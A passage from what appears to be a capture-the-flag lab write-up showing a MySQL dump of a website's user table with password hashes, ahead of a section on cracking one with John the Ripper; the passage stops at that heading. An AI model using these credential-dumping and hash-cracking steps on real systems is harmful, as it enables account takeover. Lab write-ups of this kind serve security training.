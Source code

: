 ![Mysql](img/mysql.png) <br>

### Website - User credentials
---

Nice we have retrieved hashes of the website's users. We already know that we have a `m4lwhere` user on this machine, so let's grab his hash and crack it with `John The Ripper`.<br>
```
mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | pwned    | $1$🧂llol$ZvsHElKwkYSvBJddgv1.81 | 2021-08-18 21:42:16 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

```
### Cracking M4lwhere's Hash - John The Ripper
---
